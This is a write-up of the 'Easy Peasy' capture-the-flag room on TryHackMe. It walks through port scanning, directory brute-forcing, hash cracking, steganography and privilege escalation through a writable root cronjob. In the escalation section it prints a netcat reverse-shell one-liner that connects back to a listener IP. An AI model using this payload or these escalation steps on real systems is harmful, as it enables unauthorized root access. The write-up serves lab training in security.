Easy Peasy CTF
In this write-up, we tackle the "Easy Peasy" room from TryHackMe. We will go through enumeration,
hiding data in images (steganography), hash cracking, and exploiting system misconfigurations.
Link to the room: https://tryhackme.com/room/easypeasyctf
1. Reconnaissance
First, I started my reconnaissance with a basic Nmap scan.
$ sudo nmap -T4 10.80.147.162
In the basic scan, we only saw one open port (80). This wasn't a correct answer to the first question abou number of ports that are open, so I decided to dig deeper and started a full port scan to find hidden services.
$ sudo nmap -p- -T4 10.80.147.162
And now we see two more ports: 6498 and 65524! Let's look closer into them.
$ sudo nmap -sV -p80,6498,65524 -T4 10.80.147.162
We discovered SSH on port 6498 and another HTTP service (Apache) on port 65524.
2. Web Enumeration
All web servers showed default pages (Nginx and Apache), which was a bit boring.
In the meantime, I checked robots.txt on the port 65524 server and found something interesting.

While analyzing that, I ran Gobuster on the main HTTP service (port 80) to look for hidden directories.
$ gobuster dir -u http://10.80.147.162 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
After some time, Gobuster found a hidden directory and I navigate to this site.

Navigating further, I found another page titled "dead end".

I checked the source code and found text encoded in Base64.

It turned out, after decoding, that this was the first flag we needed! So let's continue deeper enumeration.
Some time passed, and after casually looking at the Apache default page on port 65524 again, I noticed something funny one of the flags was in the text on the site. I also look into source code of that site.


The hint said "its encoded with ba...". My first thought was Base64, but decoding it didn't work. I tried a few other Base variations (like Base32). Finally, it turned out to be Base62, which led me to a hidden directory.
3. Hash Cracking
Inside the source code of that new directory, I found a hash.
I wasn't sure what algorithm it was. I checked hash types that hashcat detect, it suggested a few possibilities, including SHA256 and GOST.
I decided to try cracking it with Hashcat using the easypeasy.txt wordlist, provided by author of the room.
After some tries with different hash types, I successfully identified it as GOST R 34.11-94 (mode 6900).
$ hashcat -m 6900 hash.txt easypeasy.txt
Success! The password was recovered.
4. Steganography
At first, I didn't know where this password should be used. But I remembered that when inspecting the source code of the site
where I found the hash, one image (binarycodepixabay.jpg) was linked differently than others.

I downloaded it and used Steghide with the password I just cracked.
$ steghide extract -sf binarycodepixabay.jpg
It extracted a file named secrettext.txt.
Inside this file, I found a username and password represented in binary. After converting it to text, I used those credentials to login to the machine via SSH.
5. User Access
I logged in via SSH using the credentials found. I found user.txt, but something was wrong.
The flag seemed rotated or encoded.

Decoding it, gave me the correct user flag: [REDACTED].
6. Privilege Escalation
To escalate privileges, I transferred linpeas.sh to the target machine using wget.

Running Linpeas revealed a writable script that seemed to be a file that is being executed by cronjob. Text inside says that script is being run as root.


I modified the script to include a reverse shell payload connecting back to my listener.
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.145.228 4444 >/tmp/f
After waiting for the cronjob to run, I received a root shell and captured the root flag!

Root Flag: [REDACTED]
The last thing I hadn't found yet was Flag 2, so I tried to lookup for it.
I came back to the one thing I didn't use — the information in robots.txt.
I investigated and realized it was an MD5 hash. I tried some online hash decoders to crack it.

And after some time, we have our last flag: [REDACTED].